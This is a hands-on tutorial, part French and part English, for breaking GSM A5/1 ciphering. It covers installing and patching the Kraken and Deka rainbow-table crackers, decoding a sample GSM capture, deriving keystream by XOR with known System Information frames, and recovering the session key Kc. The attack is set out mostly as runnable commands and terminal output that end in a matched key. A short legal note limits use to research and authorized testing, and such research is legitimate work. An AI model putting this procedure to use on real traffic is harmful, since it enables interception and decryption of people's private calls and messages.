



A5/1 — GSM Ciphering¶
A5/1 is the stream cipher algorithm used in GSM to provide confidentiality for radio communications between the mobile device and the BTS.
1. Fonctionnement¶
Stream cipher with a 64-bit internal state (3 LFSR shift registers)
Initialized using the Kc key (derived from the SIM’s Ki via the A3/A8 algorithm and the subscriber’s IMSI)
Ciphering is applied in real-time, bit by bit, to voice or data
2. Vulnérabilités connues¶
Aged design (1980s/1990s)
Several known attacks:
Rainbow tables (time-memory tradeoff, e.g., Kraken/A5/1 project)
Attacks on LFSR weaknesses and register synchronization
Kc recovery if enough keystream is captured
3. Outils open-source utiles¶
[deka source code]((https://jenda.hrach.eu/p/deka)
OsmocomBB: possible to inject or dump keystreams for brute-force attacks
4. Démarrage du pipeline et tests de détection¶
If the cell sends a “Ciphering Indicator,” some phones warn when ciphering is off
Most modern networks disable A5/1, switch to A5/3, or use no ciphering at all
5. Références utiles (liens)¶
Legal note:
Any attack or reverse-engineering of A5/1 is reserved for research, authorized pentesting, or legal demonstration purposes only.
Unauthorized interception is illegal in most countries.
6. Kraken — tables arc-en-ciel (usage & limites)¶
Kraken is an open-source tool designed to brute-force the A5/1 cipher used in GSM (2G) by leveraging rainbow tables (precomputed lookup tables).
Goal: Recover the session key Kc from a known segment of keystream (known plaintext).
How it works:
Capture A5/1 encrypted bursts (e.g., via OsmocomBB or Airprobe).
If you know a part of the plaintext, you can extract the keystream.
Run Kraken: it compares this keystream to its rainbow tables (several terabytes of data), and may recover the key in seconds/minutes if the keystream exists in the tables.
With Kc, you can decrypt all encrypted GSM traffic (voice, SMS, etc.) for that session.
Limitations:
You need a high-quality keystream (often 64 error-free bits).
The tables do not cover the entire keyspace (success probability ~22–24% per table, up to ~50–60% with multiple sets).
Extremely sensitive to any radio reception error.
Kraken is typically used via command line with a binary keystream file (.kc) and a folder containing the rainbow tables (.bin files, several GB to TB).
7. behemoth.py — orchestration & batch¶
behemoth.py is a Python wrapper to make Kraken easier to use, automating and parallelizing the process on large datasets, clusters, or multiple CPUs/GPUs.
Typical features:
Split keystreams into blocks and run several Kraken instances in parallel.
Distribute jobs across multiple machines or cores.
Batch process (automated attacks on lots of captures, or with multiple tables).
Logging, relaunching, handling timeouts, aggregating results.
Support for cluster/cloud infrastructure (e.g., orchestrate Kraken over 8–16+ machines).
Advantages:
Much faster (massive, multi-threaded, scalable attack).
Can “industrialize” the process (pipelines, logs, monitoring).
Note: behemoth.py is not an “official” part of Kraken, but a community-made tool, often adapted for specific research or CTF team workflows.
8. Résumé & bonnes pratiques¶
Kraken: A5/1 brute-force for GSM using rainbow tables (~8 TB for full coverage), on a single machine.
behemoth.py: Python pipeline that orchestrates multiple Kraken runs in parallel (batch, cluster), for industrial-scale Kc recovery.
9. Installation & prérequis (Kraken)¶
For 6 tables… adapt for the 40
Create logical volumes for indexes (2x40Gb/tables 100Gb>80Gb)
sudo vgcreate indexes /dev/nvme1n1p1
sudo lvcreate -n ltest0 -L 100G index
sudo lvcreate -n ltest1 -L 100G index
sudo lvcreate -n ltest2 -L 100G index
Install python2.7 for Behemoth
mkdir -p ~/miniconda3
wget https://repo.anaconda.com/miniconda/Miniconda3-latest-Linux-x86_64.sh -O ~/miniconda3/miniconda.sh
bash ~/miniconda3/miniconda.sh -b -u -p ~/miniconda3
rm ~/miniconda3/miniconda.sh
source ~/miniconda3/bin/activate
conda create -n py27 python=2.7
conda activate py27
Clone kraken
git clone https://github.com/joswr1ght/kraken
cd kraken/indexes
cp tables.conf.sample tables.conf
Tables are here
tutorial is made with the 6 first in /root/kraken/indexes
Change tables.conf accordigly to your logical volumes
#Devices: dev/node max_tables
Device: /dev/index/test0 2
Device: /dev/index/test1 2
Device: /dev/index/test2 2
#Tables: dev id(advance) offset
Patch kraken
nano kraken.patch
Copy this inside
--- kraken/Kraken/DeltaLookup.cpp 2025-09-19 19:03:54.175674749 +0200
+++ kraken/Kraken/DeltaLookup.cpp 2025-09-19 18:59:31.433983884 +0200
@@ -9,7 +9,7 @@
#include <assert.h>
#include <stdlib.h>
#if !defined(__APPLE__)
-#include <stropts.h>
+#include <sys/ioctl.h>
#else
#include <unistd.h>
#endif /* __APPLE__ */
--- kraken/Utilities/DeltaLookup.cpp 2025-09-19 19:03:54.180703586 +0200
+++ kraken/Utilities/DeltaLookup.cpp 2025-09-19 19:03:09.616665058 +0200
@@ -9,7 +9,7 @@
#include <assert.h>
#include <linux/fs.h>
#include <stdlib.h>
-#include <stropts.h>
+#include <sys/ioctl.h>
#include <fcntl.h>
#define READ8()\
--- kraken/Utilities/SSDlookup.cpp 2025-09-19 19:03:54.180703586 +0200
+++ kraken/Utilities/SSDlookup.cpp 2025-09-19 19:01:22.512755994 +0200
@@ -8,7 +8,7 @@
#include <assert.h>
#include <linux/fs.h>
#include <stdlib.h>
-#include <stropts.h>
+#include <sys/ioctl.h>
#include <fcntl.h>
#include <unistd.h>
patch -p0 kraken.patch
root@legion:~/kraken# make noati
cd a5_cpu && ./build.sh
cd Kraken && ./build.sh
make -C TableConvert
make[1] : on entre dans le répertoire « /root/kraken/TableConvert »
make[1]: Rien à faire pour « all ».
make[1] : on quitte le répertoire « /root/kraken/TableConvert »
make -C Utilities
make[1] : on entre dans le répertoire « /root/kraken/Utilities »
g++ -g -o a5lookup a5lookup.cpp Bidirectional.cpp SSDlookup.cpp DeltaLookup.cpp \
../a5_cpu/A5CpuStubs.cpp -ldl
g++ -o getstate getstate.cpp Bidirectional.cpp
g++ -o find_kc find_kc.cpp Bidirectional.cpp TheMatrix.cpp
make[1] : on quitte le répertoire « /root/kraken/Utilities »
python Behemoth.py /root/kraken/indexes
(py27) root@legion:/root/kraken/indexes# python Behemoth.py /root/kraken/indexes
Adding table: /root/kraken/indexes/a51_table_124.dlt 124
Running "./../TableConvert/TableConvert di /root/kraken/indexes/a51_table_124.dlt /dev/indexes/lvol0:0 124.idx"
seek offset: 0i blocks (/dev/indexes/lvol0)
6202165651i chains written.
6202165651i chains written, 54.093979 bits pr chain.
Adding table: /root/kraken/indexes/a51_table_116.dlt 116
Running "./../TableConvert/TableConvert di /root/kraken/indexes/a51_table_116.dlt /dev/indexes/lvol0:10238642 116.idx"
seek offset: 10238642i blocks (/dev/indexes/lvol0)
6197992298i chains written.
6197992298i chains written, 54.094944 bits pr chain.
Adding table: /root/kraken/indexes/a51_table_100.dlt 100
Running "./../TableConvert/TableConvert di /root/kraken/indexes/a51_table_100.dlt /dev/indexes/lvol1:0 100.idx"
seek offset: 0i blocks (/dev/indexes/lvol1)
6196072189i chains written.
6196072189i chains written, 54.095421 bits pr chain.
Adding table: /root/kraken/indexes/a51_table_108.dlt 108
Running "./../TableConvert/TableConvert di /root/kraken/indexes/a51_table_108.dlt /dev/indexes/lvol1:10228856 108.idx"
seek offset: 10228856i blocks (/dev/indexes/lvol1)
6199297314i chains written.
6199297314i chains written, 54.096107 bits pr chain.
Adding table: /root/kraken/indexes/a51_table_132.dlt 132
Running "./../TableConvert/TableConvert di /root/kraken/indexes/a51_table_132.dlt /dev/indexes/lvol2:0 132.idx"
seek offset: 0i blocks (/dev/indexes/lvol2)
6216219012i chains written.
6216219012i chains written, 54.141064 bits pr chain.
Adding table: /root/kraken/indexes/a51_table_140.dlt 140
Running "./../TableConvert/TableConvert di /root/kraken/indexes/a51_table_140.dlt /dev/indexes/lvol2:10270774 140.idx"
seek offset: 10270774i blocks (/dev/indexes/lvol2)
6201225335i chains written.
6201225335i chains written, 54.095703 bits pr chain.
The tables should automaticly look like something like this
#Devices: dev/node max_tables
Device: /dev/index/test0 2
Device: /dev/index/test1 2
Device: /dev/index/test2 2
#Tables: dev id(advance) offset
Table: 0 116 10238642
Table: 0 124 0
Table: 1 108 10228856
Table: 1 100 0
Table: 2 140 10270774
Table: 2 132 0
Now it is time to test !
root@legion:~/kraken/Kraken# ./kraken ../indexes
Device: /dev/index/test0 2
/dev/index/test0
Device: /dev/index/test1 2
/dev/index/test1
Device: /dev/index/test2 2
/dev/index/test2
Allocated 41247488 bytes: ../indexes/116.idx
Allocated 41274520 bytes: ../indexes/124.idx
Allocated 41257060 bytes: ../indexes/108.idx
Allocated 41235072 bytes: ../indexes/100.idx
Allocated 41269576 bytes: ../indexes/140.idx
Allocated 41404056 bytes: ../indexes/132.idx
Tables: 116,124,108,100,140,132
Commands are: crack test quit
Kraken> crack 101011100010100000110010010001001001001001001011111111001001001100101000111111110110110111011000100000101110000000
Cracking 101011100010100000110010010001001001001001001011111111001001001100101000111111110110110111011000100000101110000000
Found 9970766682852257085x @ 43 #0 (table:100)
crack #0 took 2858 msec
Kraken>
10 Deka Install (Kraken OpenCL cracker)¶
10.1 Préparation du système et prérequis¶
OS: Debian Jessie up to Bookworm, or Ubuntu
GPU: AMD recommended (Nvidia possible but more patching needed)
Python 3 (some scripts might require 2.7 as well)
PyOpenCL
Disk: ≥2 TB free for tables (SSD/NVMe best)
Packages:
You will need (if you use only 6 tables instead of 40) fake.idx to put in /root/kraken/indexes/00.idx download fake idx
sudo apt update
sudo apt install git build-essential python3.12 python3.12-pip python3.12-venv opencl-c-headers clinfo
python3.12 -m venv .env
pip3 install pyopencl torch pyopencl pocl
10.2 Récupération du code¶
git clone git clone https://jenda.hrach.eu/p/deka
cd deka
A partir du tables.conf précédent :
tables.conf
#Devices: dev/node max_tables
Device: /dev/index/test0 2
Device: /dev/index/test1 2
Device: /dev/index/test2 2
#Tables: dev id(advance) offset
Table: 0 116 10238642
Table: 0 124 0
Table: 1 108 10228856
Table: 1 100 0
Table: 2 140 10270774
Table: 2 132 0
on établi delta_client.h
/* First, path to index files. The order has to match the numbers in vankusconf.py. */
const char * files[40] = {
"/root/kraken/indexes/116.idx",
"/root/kraken/indexes/124.idx",
"/root/kraken/indexes/108.idx",
"/root/kraken/indexes/100.idx",
"/root/kraken/indexes/140.idx",
"/root/kraken/indexes/132.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx",
"/root/kraken/indexes/00.idx"
};
/* Offsets of beginning of tables specified in 4096B long blocks.
Of course the order matters.
E.g. the first number "102347869" tells us that the first table, 380, begins
102347869*4096 = 419 216 871 424 bytes from the beginning of the device.
*/
const uint64_t offsets[40] = {
10238642,
0,
10228856,
0,
10270774,
0,0,0,0,0,
0,0,0,0,0,
0,0,0,0,0,
0,0,0,0,0,
0,0,0,0,0,
0,0,0,0,0,
0,0,0,0,0
};
/* Path to devices (or files) where the tables are stored. */
const char * devpaths[] = {
"/dev/index/test0",
"/dev/index/test1",
"/dev/index/test2"
};
/* Which table has been stored on which device. E.g. "2" means that the table
is on second (counting from 0) device from the devpaths array.
*/
const int devs[40] = {
0,
0,
1,
1,
2,
2,
0,0,0,0,0,
0,0,0,0,0,
0,0,0,0,0,
0,0,0,0,0,
0,0,0,0,0,
0,0,0,0,0,
0,0,0,0
};
Ainsi que vancusconf.h
/* How many bursts to load in parallel. The GPU should be fully saturated.
Something like 50 is a good start, depending on number of computing units
on your card.
If the value is too low, "kernels" in oclvankus log will be lower than
specified (and the performance would be of course impaired).
If the value is too high, the cracker will have high latency.
*/
#define QSIZE 140
/* XXX 80 */
/* size of GPGPU buffer, kernels*slices */
#define CLBLOBSIZE 8191*32
/* 4095 */
/* tables we have */
uint64_t mytables[] = {116,124,108,100,140,132,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00};
# tables we have
# yeah its in this silly order
mytables = [116,124,108,100,140,132,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00]
# server host and port
HOST, PORT = "localhost", 6666
# how many kernels to run in parallel
kernels = 8191
# XXX 4095
# slices per kernel
slices = 32
# dump computed bursts to files for later analysis - useful for bug hunting
DEBUGDUMP = False
On cherche les valeurs que l’on va mettre dans delta_binary.h
root@legion:/home/nirvana# ls -al /root/kraken/indexes/116.idx
-rw-r--r-- 1 root root 81855496 sept. 19 22:04 /root/kraken/indexes/116.idx
nirvana@legion:~/deka$ bc
bc 1.07.1
Copyright 1991-1994, 1997, 1998, 2000, 2004, 2006, 2008, 2012-2017 Free Software Foundation, Inc.
This is free software with ABSOLUTELY NO WARRANTY.
For details type warranty.
81855496/2048
39968
On a extrait la valeur 39968
cat tables.conf
#Devices: dev/node max_tables
Device: /dev/index/test0 2
Device: /dev/index/test1 2
Device: /dev/index/test2 2
#Tables: dev id(advance) offset
Table: 0 116 10238642
Table: 0 124 0
Table: 1 108 10228856
Table: 1 100 0
Table: 2 140 10270774
Table: 2 132 0
On a extrait la valeur 10238642
--- ../deka/delta_binary.h 2025-09-19 23:30:39.345774450 +0200
+++ ../deka/delta_binary.h 2025-09-19 22:18:00.285890392 +0200
@@ -86,8 +86,8 @@
/* Index of blockstarts in table */
/* The number of chains in tables generated is unknown to me. These
index sizes have been worked out empirically... */
-int mBlockIndex[40][10227760+100000];
-uint64_t mPrimaryIndex[40][39952+1000];
+int mBlockIndex[40][10238642+100000];
+uint64_t mPrimaryIndex[40][39968+1000];
int mNumBlocks[40];
unsigned long mStepSize[40];
Génération et compilation du kernel OpenCL
AMD: use
genkernel32.sh(recommended)Nvidia: you may need to patch “unsigned long long” → “ulong”
32 or 64 bit: generates a custom
slice.c(adjust vankusconf.h/vankusconf.py if you switch to 64 bit)
./genkernel32.sh > slice.c
# or
./genkernel64.sh > slice.c
make deka
nirvana@legion$ cd deka
nirvana@legion:~/deka$ sed -i -e "s/3.5m/3.12/g" Makefile
nirvana@legion:~/deka$ make
swig4.0 -python delta.i
gcc -Wall -lm -std=gnu99 -O3 -lpthread -g -ggdb3 -c -fpic delta.c delta_wrap.c -I/usr/include/python3.12
delta.c: In function ‘ncq_read’:
delta.c:263:7: warning: unused variable ‘be’ [-Wunused-variable]
263 | int be = 0;
| ^~
delta.c: In function ‘MineABlockNCQ’:
delta.c:110:3: warning: ignoring return value of ‘fread’ declared with attribute ‘warn_unused_result’ [-Wunused-result]
110 | fread(scratch, 4096, 1, fp);
| ^~~~~~~~~~~~~~~~~~~~~~~~~~~
delta.c: In function ‘main’:
delta.c:306:3: warning: ignoring return value of ‘fread’ declared with attribute ‘warn_unused_result’ [-Wunused-result]
306 | fread(scb, 130560, 1, ptr_myfile);
| ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gcc -shared delta.o delta_wrap.o -o _delta.so
swig4.0 -python libvankus.i
gcc -Wall -lm -std=gnu99 -O3 -lpthread -g -ggdb3 -c -fpic libvankus.c libvankus_wrap.c -I/usr/include/python3.12
gcc -shared libvankus.o libvankus_wrap.o -o _libvankus.so
11. Démarrage du pipeline (paplon / oclvankus / delta_client)¶
Manual startup (best for first time/debug):
In 3 terminals
python3 paplon.py
python3 oclvankus.py # (run once per OpenCL device; it will prompt for the device)
python3 delta_client.py
In the 4th
nirvana@legion:~$ telnet 0 6666
Trying 0.0.0.0...
Connected to 0.
Escape character is ^].
crack 101011100010100000110010010001001001001001001011111111001001001100101000111111110110110111011000100000101110000000
Cracking #4 101011100010100000110010010001001001001001001011111111001001001100101000111111110110110111011000100000101110000000
Found 8A5F47787DB56D3D @ 43 #4 (table:100)
crack #4 took 6949 msec
crack 011111100010011010000110001001001001001111100001000100111000001011011010000111001000000001001000101001111001011010
Cracking #5 011111100010011010000110001001001001001111100001000100111000001011011010000111001000000001001000101001111001011010
Found AA454F400A859C43 @ 16 #5 (table:132)
crack #5 took 6232 msec
To avoid device selection prompt:
export PYOPENCL_CTX="0:0"
Notes & Tips
Don’t run as root unless you need raw disk access
All scripts and kernels are modifiable (fragments, tuning, debug)
For troubleshooting or performance, check GitHub Issues, SRLabs forums, brmlab, or GSM hacking Discords
12. The attack¶
Download the capture
vf_call6_a725_d174_g5_Kc1EF00BAB3BAC7002.cfile
Install airprobe (ToDo)
Install and run wireshark
sudo apt install wireshark
sudo su
wireshark -k -f udp -Y gsmtap -i lo &
Run airprobe in premade docker
sudo apt install docker.io docker-compose-v2
sudo docker pull bastienbaranoff/airprobe:latest
sudo docker run -it --net host bastienbaranoff/airprobe
cd /opt/airprobe/gsm-receiver/src/python
./go_usrp2.sh vf_call6_a725_d174_g5_Kc1EF00BAB3BAC7002.cfile 174
next check Immediate Assignement in wireshark go in GSM CCCH and open Channel Description Tag
in our capture we should see: 
Relaunch airprobe with Channel description accuracy
0C : TimeSlot0 "Combined configuration", with SDCCH/4
(FCCH + SCH + BCCH + CCCH + SDCCH/4)
0B : TS0 "FCCH + SCH + BCCH + CCCH"
1S : TS1 SDCCH/8
2T : TS2 (Full Rate) Traffic
1TE: TS1 Enhanced Full Rate Traffic
cd /opt/airprobe/gsm-receiver/src/python
./go_usrp2.sh vf_call6_a725_d174_g5_Kc1EF00BAB3BAC7002.cfile 174 1S
Check for System Information Type 5 Frame in wireshark

Search the corresponding block and quote the first frame
C1 862242 1332356: 001000000001110000100000001100100011000001100000110000000110101001000000101010010001001000110100000000101000000110
P1 862242 1332356: 001000000001110000100000001100100011000001100000110000000110101001000000101010010001001000110100000000101000000110
S1 862242 1332356: 000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
C0 862243 1332389: 000000000101001000100000000000101000000001101011010000101010000101000010001101000010000000000101000010101100010100
P0 862243 1332389: 000000000101001000100000000000101000000001101011010000101010000101000010001101000010000000000101000010101100010100
S0 862243 1332389: 000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
C0 862244 1332422: 100000010100101000000001111000000000010100000100010000000001010000110000000001001000000001000010101000010100110010
P0 862244 1332422: 100000010100101000000001111000000000010100000100010000000001010000110000000001001000000001000010101000010100110010
S0 862244 1332422: 000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
C0 862245 1332455: 110000000100100100000101000011010101001000000100000100000000010110001010010000101010100001010100000001000000001000
P0 862245 1332455: 110000000100100100000101000011010101001000000100000100000000010110001010010000101010100001010100000001000000001000
S0 862245 1332455: 000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
862245 1: 00 01 03 03 49 06 1d 9f 6d 18 10 80 00 00 00 00 00 00 00 00 00 00 00
You see there is a timing advance of 1 in wireshark put it to 0
0001030349061d9f6d1810800000000000000000000000 0000030349061d9f6d1810800000000000000000000000
Generate the frame corresponding with GSMFramecoder
Decoding 0000030349061d9f6d1810800000000000000000000000
Encoded Frame, Burst1:
001000000001010000100000001100100010000011000000100000000110101000000000001011010001000000110100001000101001000110
Encoded Frame, Burst2:
000000000111101000110000100000101100000011101010000000000010010101000000001100000010000000010101000010101100010100
Encoded Frame, Burst3:
100100010100101000000001011000010000010100000001010000000001000000110000000001001000000001000000001000000000111010
Encoded Frame, Burst4:
110000001100100100000101000010010101000000000000000100000001010100001010000000000010100100011110000000000010101000
Next we will XOR Clear and Ciphered Frame
Clear Frame 862242 Same ciphered +102 862344 Same ciphered +102 862446
C1 862446 1332352: 010010100010111111011010010010111000000101010000100100111111001010100111110000101001110000101110100011111000010001
P1 862446 1332352: 010010100010111111011010010010111000000101010000100100111111001010100111110000101001110000101110100011111000010001
S1 862446 1332352: 000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
C0 862447 1332385: 011100001000110111001101011011111001010000110001101001000100000011111101000110010100011001100001100100000010101110
P0 862447 1332385: 011100001000110111001101011011111001010000110001101001000100000011111101000110010100011001100001100100000010101110
S0 862447 1332385: 000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
C0 862448 1332418: 111010110111001011110001011101101100010000101110111000010000000101110001010100100101011010000010110110110111001011
P0 862448 1332418: 111010110111001011110001011101101100010000101110111000010000000101110001010100100101011010000010110110110111001011
S0 862448 1332418: 000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
C0 862449 1332451: 011111110010110100001100001101110001001110100011010010111001001010111001001101000010111100101100110100000110110000
P0 862449 1332451: 011111110010110100001100001101110001001110100011010010111001001010111001001101000010111100101100110100000110110000
S0 862449 1332451: 000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
Let’s delete redondancies (keep only C1 and C0)
C1 862446 1332352: 010010100010111111011010010010111000000101010000100100111111001010100111110000101001110000101110100011111000010001
C0 862447 1332385: 011100001000110111001101011011111001010000110001101001000100000011111101000110010100011001100001100100000010101110
C0 862448 1332418: 111010110111001011110001011101101100010000101110111000010000000101110001010100100101011010000010110110110111001011
C0 862449 1332451: 011111110010110100001100001101110001001110100011010010111001001010111001001101000010111100101100110100000110110000
At least xor the clear frame reencoded by GSMFramcoder and Ciphered ones
conda activate py27
cd /root/kraken/Utilities/
python xor.py 010010100010111111011010010010111000000101010000100100111111001010100111110000101001110000101110100011111000010001 001000000001010000100000001100100010000011000000100000000110101000000000001011010001000000110100001000101001000110
python xor.py 011100001000110111001101011011111001010000110001101001000100000011111101000110010100011001100001100100000010101110 000000000111101000110000100000101100000011101010000000000010010101000000001100000010000000010101000010101100010100
python xor.py 111010110111001011110001011101101100010000101110111000010000000101110001010100100101011010000010110110110111001011 100100010100101000000001011000010000010100000001010000000001000000110000000001001000000001000000001000000000111010
python xor.py 011111110010110100001100001101110001001110100011010010111001001010111001001101000010111100101100110100000110110000 110000001100100100000101000010010101000000000000000100000001010100001010000000000010100100011110000000000010101000
root@legion:~/kraken/Utilities# source ~/miniconda3/bin/activate
(base) root@legion:~/kraken/Utilities# conda activate py27
(py27) root@legion:~/kraken/Utilities# python xor.py 010010100010111111011010010010111000000101010000100100111111001010100111110000101001110000101110100011111000010001 001000000001010000100000001100100010000011000000100000000110101000000000001011010001000000110100001000101001000110
011010100011101111111010011110011010000110010000000100111001100010100111111011111000110000011010101011010001010111
(py27) root@legion:~/kraken/Utilities# python xor.py 011100001000110111001101011011111001010000110001101001000100000011111101000110010100011001100001100100000010101110 000000000111101000110000100000101100000011101010000000000010010101000000001100000010000000010101000010101100010100
011100001111011111111101111011010101010011011011101001000110010110111101001010010110011001110100100110101110111010
(py27) root@legion:~/kraken/Utilities# python xor.py 111010110111001011110001011101101100010000101110111000010000000101110001010100100101011010000010110110110111001011 100100010100101000000001011000010000010100000001010000000001000000110000000001001000000001000000001000000000111010
011110100011100011110000000101111100000100101111101000010001000101000001010101101101011011000010111110110111110001
(py27) root@legion:~/kraken/Utilities# python xor.py 011111110010110100001100001101110001001110100011010010111001001010111001001101000010111100101100110100000110110000 110000001100100100000101000010010101000000000000000100000001010100001010000000000010100100011110000000000010101000
101111111110010000001001001111100100001110100011010110111000011110110011001101000000011000110010110100000100011000
Next use kraken or deka to crack the keystream :
nirvana@legion:~$ telnet 0 6666
Trying 0.0.0.0...
Connected to 0.
Escape character is '^]'.
crack 101111111110010000001001001111100100001110100011010110111000011110110011001101000000011000110010110100000100011000
Cracking #1 101111111110010000001001001111100100001110100011010110111000011110110011001101000000011000110010110100000100011000
Found D5EB21665D2B8F25 @ 13 #1 (table:172)
crack #1 took 6249 msec
convert Hexadecimal result to decimal one : online converter

add x at the end
D5EB21665D2B8F25->15414450873139171109x
root@legion:/mnt/kraken/Utilities# ./find_kc 15414450873139171109x 13 1332451 1332352 011010100011101111111010011110011010000110010000000100111001100010100111111011111000110000011010101011010001010111
#### Found potential key (bits: 13)####
f4ae37016b1fa0cb -> f4ae37016b1fa0cb
Framecount is 1332451
KC(0): b7 09 2a b2 c9 5c 86 32 mismatch
KC(1): 1e f0 0b ab 3b ac 70 02 *** MATCHED ***
KC(2): 9f 5b 40 35 57 b2 96 4d mismatch
KC(3): 95 1a d4 22 96 88 07 d3 mismatch
KC(4): c7 56 6a bf 4d f7 03 e9 mismatch
KC(5): 65 a6 53 ac c6 d8 ae 88 mismatch
KC(6): 66 73 71 0d 9b ee 51 c9 mismatch
KC(7): 2b fe 62 6c b5 e7 2b 56 mismatch
KC(8): 7a af 0d 42 60 37 58 51 mismatch
KC(9): 6f 90 29 61 5e 69 46 97 mismatch
KC(10): f4 7a 34 bb ab 58 6c 8e mismatch
KC(11): be 6b 93 47 fb c1 4e 3e mismatch
KC(12): 32 aa a8 b1 e6 4e ab dc mismatch
KC(13): d2 94 fb 04 7f 88 99 e2 mismatch
KC(14): 62 38 25 68 8d 42 02 cc mismatch
KC(15): 4a 71 63 84 38 c4 56 44 mismatch
KC(16): 1a f8 c2 36 78 a0 bb a3 mismatch
KC(17): 3a 46 17 3a fc 34 63 76 mismatch
KC(18): 93 bf 36 23 0e c4 95 46 mismatch
KC(19): 89 0e 5b 7f 3e c8 86 37 mismatch
KC(20): b4 93 2e c3 37 5b 57 a9 mismatch
KC(21): e4 0d 18 32 aa c6 48 c7 mismatch
This match to the key of the cfile
KC(1): 1e f0 0b ab 3b ac 70 02 *** MATCHED ***
vf_call6_a725_d174_g5_Kc1EF00BAB3BAC7002.cfile